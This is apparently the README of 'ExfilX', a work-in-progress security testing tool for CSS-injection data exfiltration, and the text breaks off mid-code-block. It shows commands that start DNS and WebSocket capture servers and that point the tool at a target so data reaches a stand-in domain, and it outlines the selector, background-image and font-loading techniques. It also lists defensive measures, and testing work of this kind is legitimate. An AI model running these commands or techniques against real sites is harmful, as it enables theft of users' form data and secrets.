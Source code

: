 # ExfilX: CSS Injection Data Exfiltration Tool - WORK IN PROGRESS: NOT FINISHED.

ExfilX is a tool designed to test for CSS-based data exfiltration vulnerabilities in web applications. It demonstrates how malicious CSS can be used to extract sensitive data from vulnerable web pages using DNS or WebSocket techniques.

## ⚠️ Warning

This tool is for **educational and security testing purposes only**. Only use it on systems you own or have explicit permission to test. Unauthorized use of this tool may violate computer crime laws.

## Features

- Tests for CSS-based exfiltration vulnerabilities
- Injects malicious CSS to extract sensitive data from vulnerable web pages
- Supports multiple exfiltration methods:
  - DNS-based exfiltration
  - WebSocket-based exfiltration
- Includes a server component to capture exfiltrated data

## Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/exfilx.git
cd exfilx

# Install dependencies
pip install -r requirements.txt
```

## Usage

### Starting the Exfiltration Server

To start a DNS exfiltration server:

```bash
python main.py --server --method dns --dns-port 53 --dns-domain exfil.local
```

To start a WebSocket exfiltration server:

```bash
python main.py --server --method websocket --ws-host 127.0.0.1 --ws-port 8765
```

### Testing a Target for CSS Injection

To test a target using DNS exfiltration:

```bash
python main.py --target http://example.com --method dns --dns-domain exfil.local
```

To test a target using WebSocket exfiltration:

```bash
python main.py --target http://example.com --method websocket --ws-host 127.0.0.1 --ws-port 8765
```

### Specifying an Injection Point

If you know where to inject the CSS:

```bash
python main.py --target http://example.com --inject-point style
```

## How It Works

1. **CSS Injection**: The tool injects malicious CSS into the target web page through various injection points.
2. **Data Extraction**: The injected CSS uses techniques like attribute selectors and background images to extract sensitive data.
3. **Exfiltration**: The data is sent to the attacker's server using DNS requests or WebSocket connections.
4. **Data Collection**: The server component captures and processes the exfiltrated data.

## CSS Exfiltration Techniques

ExfilX uses several CSS-based techniques to extract data:

- **Attribute Selectors**: Using CSS selectors like `input[value^="a"]` to test if an input's value starts with "a"
- **Background Images**: Using `background-image: url()` to make HTTP requests containing exfiltrated data
- **Font Loading**: Using `@font-face` and unicode-range to detect character presence

## Protection Measures

To protect against CSS-based data exfiltration:

- Implement proper Content Security Policy (CSP) headers
- Sanitize user input that could be reflected in CSS
- Use HTTP-only cookies for sensitive data
- Implement proper CSRF protection

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## How to Use the Tool

1. First, start the exfiltration server to capture data:

```bash
sudo python main.py --server --method dns --dns-port 53 --dns-domain exfil.local
```

2. In another terminal, test a target website for CSS injection vulnerabilities:

```bash
python main.py --target http://example.com --method dns --dns-domain exfil.local
